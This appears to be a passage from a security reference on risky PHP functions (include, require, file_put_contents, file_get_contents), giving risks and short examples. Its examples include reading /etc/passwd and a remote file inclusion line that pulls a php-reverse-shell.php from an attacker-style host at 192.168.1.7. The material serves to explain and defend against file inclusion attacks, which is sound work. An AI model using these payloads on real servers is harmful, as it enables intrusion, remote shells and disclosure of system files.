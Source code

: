 Risks:

- If used with untrusted input, an attacker can perform Local File Inclusion (LFI) or Remote File Inclusion (RFI).

- This could allow code execution from attacker-controlled files or sensitive system files (/etc/passwd).

Examples:

Attempts to include system password file as PHP code, causing an error or leakage:

        php
        include('/etc/passwd')
        require('/etc/passwd')
Includes remote malicious PHP code from attacker server (RFI):
        
        php
        include('http://192.168.1.7/php-reverse-shell.php')
        require('http://192.168.1.7/php-reverse-shell.php')


## file_put_contents

### Description:
Writes data to a file, creating or overwriting the file.


### Risk:
Can be used by attackers to write malicious PHP scripts to the server, enabling backdoors or other exploits.

### Example:

    php
    $code = '<?php phpinfo(); ?>';
    file_put_contents("phpinfo-test.php", $code);
    Creates a file that when accessed shows detailed PHP configuration information.

## file_get_contents

### Description:
Reads the contents of files or URLs into a string.

### Risk:
If user-controlled, can be misused to read sensitive files or remote URLs, causing information disclosure or code inclusion.

### Example:

    php
    $content = file_get_contents("/etc/passwd");
    echo nl2br(htmlspecialchars($content));
    Reads and safely outputs system password file content.
